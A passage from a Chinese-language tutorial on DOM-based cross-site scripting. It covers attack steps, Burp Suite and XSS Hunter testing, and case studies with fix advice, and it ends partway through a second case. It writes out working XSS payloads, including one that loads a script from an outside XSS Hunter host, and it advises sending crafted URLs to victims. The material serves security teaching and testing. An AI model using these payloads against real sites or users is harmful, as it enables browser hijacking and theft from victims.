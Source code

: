 3. **触发漏洞**：将构造好的URL发送给受害者，或通过其他方式诱导受害者访问该URL。
4. **执行恶意脚本**：当受害者访问该URL时，恶意脚本将在其浏览器中执行。

### 3.3 实际命令和工具使用说明

#### 3.3.1 使用Burp Suite进行漏洞测试
1. **启动Burp Suite**：打开Burp Suite并配置浏览器代理。
2. **拦截请求**：访问测试页面，并使用Burp Suite拦截请求。
3. **修改请求**：在拦截的请求中，修改URL片段为恶意输入，如：

    ```
    http://localhost:8000/#<img src="x" onerror="alert('XSS')">
    ```

4. **发送请求**：将修改后的请求发送到服务器，观察页面是否执行了恶意脚本。

#### 3.3.2 使用XSS Hunter进行漏洞验证
1. **注册XSS Hunter**：访问[XSS Hunter](https://xss hunter.com/)并注册一个账户。
2. **生成Payload**：在XSS Hunter中生成一个Payload，如：

    ```
    <img src="x" onerror="s=document.createElement('script');s.src='https://xss.hunter/your-payload';document.body.appendChild(s);">
    ```

3. **构造URL**：将生成的Payload插入到URL片段中，如：

    ```
    http://localhost:8000/#<img src="x" onerror="s=document.createElement('script');s.src='https://xss.hunter/your-payload';document.body.appendChild(s);">
    ```

4. **发送URL**：将构造好的URL发送给受害者，或通过其他方式诱导受害者访问该URL。
5. **查看结果**：在XSS Hunter中查看是否捕获到了XSS漏洞。

## 4. 案例分析

### 4.1 案例一：基于`innerHTML`的XSS
**漏洞描述**：某电商网站的商品详情页面存在DOM型XSS漏洞，用户输入的评论内容被直接插入到`innerHTML`中。

**攻击步骤**：
1. 攻击者构造恶意评论内容：

    ```html
    <img src="x" onerror="alert('XSS')">
    ```

2. 提交评论并诱导其他用户查看该商品详情页面。
3. 当其他用户访问该页面时，恶意脚本在其浏览器中执行。

**修复建议**：
- 对用户输入进行严格的转义和验证。
- 使用`textContent`代替`innerHTML`来插入用户输入。

### 4.2 案例二：基于`eval`的XSS
**漏洞描述**：某社交网站的用户个人资料页面存在DOM型XSS漏洞，用户输入的昵称被传递给`eval`函数。
